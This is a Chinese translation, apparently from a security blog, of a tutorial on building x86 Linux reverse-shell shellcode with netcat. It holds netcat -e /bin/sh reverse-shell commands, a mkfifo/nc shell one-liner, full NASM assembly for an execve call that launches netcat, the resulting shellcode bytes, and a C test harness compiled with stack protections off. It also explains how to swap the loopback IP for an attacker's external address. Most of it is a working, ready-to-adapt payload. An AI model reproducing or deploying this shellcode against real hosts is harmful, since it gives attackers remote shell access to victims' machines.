


# 使用 netcat 进行反弹链接的 shellcode

2014/04/03 16:23 | [∑-TEAM](http://drops.wooyun.org/author/∑-TEAM "由 ∑-TEAM 发布") | [二进制安全](http://drops.wooyun.org/category/binary "查看 二进制安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

from:[`morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat/`](http://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat/)

这篇文章主要是谈，在远程溢出时怎样构造 shellcode，才能形成一个有效的反弹链接。

## 0x00 反向绑定远程 shell

* * *

让本地主机和远程 shell 建立起连接的方法有很多种，其中最常见的是在远程主机上开放一个端口，然后把它的

```
stdout/stderr/stdin 
```

重定向到一个 shell 上。

这样我们就可以在自己的主机上通过一个简单的 netcat 命令来连接它。

但是，大多数情况下这种方法并不能起作用，很多服务器只对外开放少量的几个端口，比如，http(s),ftp,smtp 等。

其他的数据包都会被防火墙直接丢弃。解决这种问题的方法就是使用反弹链接，反弹链接的意思就是，让远程的主机主动连接我们的服务器。

所以，你需要在自己的机器上开放一个端口，等待着倒霉的受害者自己连接你的主机就可以了。

## 0x01 netcat -e 命令

* * *

首先我们假设，目标网站上安装了 netcat。

通常情况下 netcat 支持 e 参数，这个参数将会运行后面所跟的程序，并将它跟链接绑定。

如果我们把`/bin/sh`通过 e 参数绑定，并开启监听，那当我们使用远程主机连接到这台主机时，就相当于获得了一个 shell。让我们来尝试一下。

在本地主机运行

```
netcat -lvp 9999

```

监听连入的链接。

新开一个 shell 运行

```
netcat -e /bin/sh 127.0.0.1 9999  

```

这样，你的第一个 shell 将建立起一个链接，在其中执行`ls whoami` 等命令，测试一下它是否可以正常工作，
你也可以使用 Ctrl+c 来关闭这个链接。

注意:openbsd 版本的 netcat 不支持 -e 或者-c 参数。

你可以使用以下的语句来替代。

```
rm -f /tmp/f; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 9999 > /tmp/f

```

但是它太复杂了，很难在 shellcode 中运行。

## 0x02 汇编代码

* * *

现在我们就来看一下怎样把这条语句通过汇编执行，并放入 shellcode 中。

下面是，我们 shellcode 重要运行的汇编代码。(intel 语法)

```
jmp short       forward
back:
pop             esi
xor             eax, eax
mov byte        [esi + 11], al    ; terminate /bin/netcat
mov byte        [esi + 14], al    ; terminate -e
mov byte        [esi + 22], al    ; terminate /bin/sh
mov byte        [esi + 38], al    ; terminate 127.127.127.127
mov byte        [esi + 43], al    ; terminate 9999
mov long        [esi + 44], esi   ; address of /bin/netcat in AAAA
lea             ebx, [esi + 12]   ; get address of -e  
mov long        [esi + 48], ebx   ; store address of -e in BBBB 
lea             ebx, [esi + 15]   ; get address of /bin/sh
mov long        [esi + 52], ebx   ; store address of /bin/sh in CCCC
lea             ebx, [esi + 23]   ; get address of 127.127.127.127
mov long        [esi + 56], ebx   ; store address of 127.127.127.127 in DDDD
lea             ebx, [esi + 39]   ; get address of 9999
mov long        [esi + 60], ebx   ; store address of 9999 in EEEE
mov long        [esi + 64], eax   ; put NULL in FFFF
mov byte        al, 0x0b          ; pass the execve syscall number as argument
mov             ebx, esi          
lea             ecx, [esi + 44]   ; /bin/netcat -e /bin/sh etc etc
lea             edx, [esi + 64]   ; NULL
int             0x80              ; Run the execve syscall

forward:
call            back
db "/bin/netcat#-e#/bin/sh#127.127.127.127#9999#AAAABBBBCCCCDDDDEEEEFFFF"

```

其实上面代码想做的翻译成 c 语言是如下两行

```
char *command[] = {"/bin/netcat", "-e", "/bin/sh", "127.127.127.127", "9999", NULL};
execve(command[0], command, NULL);

```

命令就是如下的字符串

```
/bin/netcat#-e#/bin/sh#127.127.127.127#9999#AAAABBBBCCCCDDDDEEEEFFFF

```

字符串中各个部分被`#`隔开，是因为在 shellcode 中不能出现 null，这会造成 shellcode 被截断，从而不能被
目标主机正确运行。

不管我们在哪里运行这段程序，首先需要知道的是命令字符串的地址。

所以我在第 1 行和第 26 行分别创建了两个标签（forword 和 back），使用 call 命令时(27 行)，首先会把返回地址入栈，返回地址就是下一条指令的地址，而下一条指令的地址恰巧就是我们的命令字符串。

回到第 3 行，我们把命令字符串地址弹出到 ESI 寄存器，然后将 EAX 初始化，注意我们不能直接使用

```
mov eax,0

```

因为 null 在 shellcode 中是不允许出现的。最后我们吧，命令字符串分开存放到内存之中。



在第 5 行到第 9 行，我们把寄存器中的 0 移动到字符串的末尾，使用替代`#`（取自 eax 寄存器，其中的 0 使用 xor 生成）之后我们需要一个各个字符串地址的数组，作为 execve()的第二个参数。

在第十行，我们把 `/bin/netcat` 的地址放入 AAAA 所在的位置，程序中的 11 到 18 行也是在做同样的事情，最后 19 行我们把存入到 FFFF 的位置，作为字符串的结尾。

在第 20 行我们准备执行系统调用，我们首先把 0xb 存储到 eax 中，esi(/bin/netcat 的地址)存储到 ebx 中，字符串的地址存储到，ecx 中，最后 edx 存储 null，之后使用 0x80 触发系统调用，不出意外的话，一个反弹链接的指令就成功执行了。

这个例子中，ip 地址使用的是 127.127.127.127  端口号是 9999，这是一个本地的 ip 地址。通常情况下
你需要使用一个外网 IP 来替换掉它，如果两个 ip 长度不同的话，你要仔细的修改掉所有与他相关联的汇编代码。

## 0x03 编译测试 shellcode

* * *

现在，需要把汇编代码存储到一个 asm 文件之中，我们这里叫做 shell.asm,使用以下的语句编译它，

```
nasm -felf32 -o shell.o shell.asm

```

使用，`objdump -D`命令我们就可以看到这个小程序的 opcodes,使用下面一段指令我们就可以把它们
放入到一个 C 字符串中

```
for i in $(objdump -d shell.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

```

最后我们得到

```
\xeb\x3c\x5e\x31\xc0\x88\x46\x0b\x88\x46\x0e\x88\x46\x16\x88\x46\x26\x88\x46\x2b\x89\x76\x2c\x8d\x5e\x0c\x89\x5e\x30\x8d\x5e\x0f\x89\x5e\x34\x8d\x5e\x17\x89\x5e\x38\x8d\x5e\x27\x89\x5e\x3c\x89\x46\x40\xb0\x0b\x89\xf3\x8d\x4e\x2c\x8d\x56\x40\xcd\x80\xe8\xbf\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x65\x74\x63\x61\x74\x23\x2d\x65\x23\x2f\x62\x69\x6e\x2f\x73\x68\x23\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x23\x39\x39\x39\x39\x23\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x44\x44\x44\x44\x45\x45\x45\x45\x46\x46\x46\x46 
```

最后我们使用一段 c 程序来验证这个 shell 是否可行。

```
char shellcode[] = "\xeb\x3c\x5e\x31\xc0\x88\x46\x0b\x88\x46\x0e\x88\x46\x16\x88\x46\x26\x88\x46\x2b\x89\x76\x2c\x8d\x5e\x0c\x89\x5e\x30\x8d\x5e\x0f\x89\x5e\x34\x8d\x5e\x17\x89\x5e\x38\x8d\x5e\x27\x89\x5e\x3c\x89\x46\x40\xb0\x0b\x89\xf3\x8d\x4e\x2c\x8d\x56\x40\xcd\x80\xe8\xbf\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x65\x74\x63\x61\x74\x23\x2d\x65\x23\x2f\x62\x69\x6e\x2f\x73\x68\x23\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x23\x39\x39\x39\x39\x23\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x44\x44\x44\x44\x45\x45\x45\x45\x46\x46\x46\x46";

int main()
{
    int (*ret)() = (int(*)())shellcode;
    ret();
}

```

想要编译它，需要关闭一些安全编译选项，然后使用如下命令。

```
gcc shellcode.c -fno-stack-protector -z execstack -o shellcode  

```

在另一个 shell 中运行`netcat -lvp 9999`，然后运行这个 c 程序`./shellcode`如果一切正确的话你就可以得到一个反弹链接的 shell 了。



happy hacking!

版权声明：未经授权禁止转载 [∑-TEAM](http://drops.wooyun.org/author/∑-TEAM "由 ∑-TEAM 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [教你解密 Gh0st 1.0 远控木马 VIP 版配置信息](http://drops.wooyun.org/tips/3589)
*   [堆溢出学习笔记](http://drops.wooyun.org/tips/1621)
*   [逆向基础（十）](http://drops.wooyun.org/tips/2728)
*   [逆向基础（四）](http://drops.wooyun.org/tips/2046)
*   [MS15-002 telnet 服务缓冲区溢出漏洞分析与 POC 构造](http://drops.wooyun.org/papers/4621)
*   [Winrar4.x 的文件欺骗漏洞利用脚本](http://drops.wooyun.org/tips/1346)